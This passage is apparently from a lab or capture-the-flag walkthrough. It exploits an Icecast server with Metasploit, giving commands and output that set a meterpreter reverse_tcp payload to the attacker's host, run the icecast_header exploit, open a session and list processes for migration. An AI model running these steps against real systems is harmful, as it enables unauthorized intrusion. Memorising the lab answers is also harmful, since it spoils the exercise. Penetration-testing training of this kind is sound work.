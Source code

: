 ```
no answer needed

msf5 exploit(multi/handler) > set PAYLOAD  windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.2.13.68
LHOST => 10.2.13.68
```
10. Let's go ahead and return to our previous exploit, run the command `use icecast` to select it again.
```
no answer needed
```
11.  One last step before we can run our exploit. Run the command 'set RHOST BOX_IP' to tell Metasploit which target to attack. 
```
no answer needed
```
12. Once you're set those variables correctly, run the exploit now via either the command 'exploit' or the command 'run -j' to run this as a job.
```
no answer needed

msf5 exploit(windows/http/icecast_header) > set RHOSTS 10.10.234.208
RHOSTS => 10.10.234.208
msf5 exploit(windows/http/icecast_header) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.2.13.68:4444 

```
13. Once we've started this, we can check all of the jobs running on the system by running the command `jobs`
```
no answer needed
```
14. After we've established our connection in the next task, we can list all of our sessions using the command `sessions`. Similarly, we can interact with a target session using the command `sessions -i SESSION_NUMBER`
```
no answer needed

msf5 exploit(windows/http/icecast_header) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```

#Task 6 We're in, now what?
1.  First things first, our initial shell/process typically isn't very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command 'ps'. What's the name of the spool service? 
```
spoolsv.exe

ps | grep spool
Filtering on 'spool'

Process List
============

 PID   PPID  Name         Arch  Session  User  Path
 ---   ----  ----         ----  -------  ----  ----
 1376  692   spoolsv.exe    
```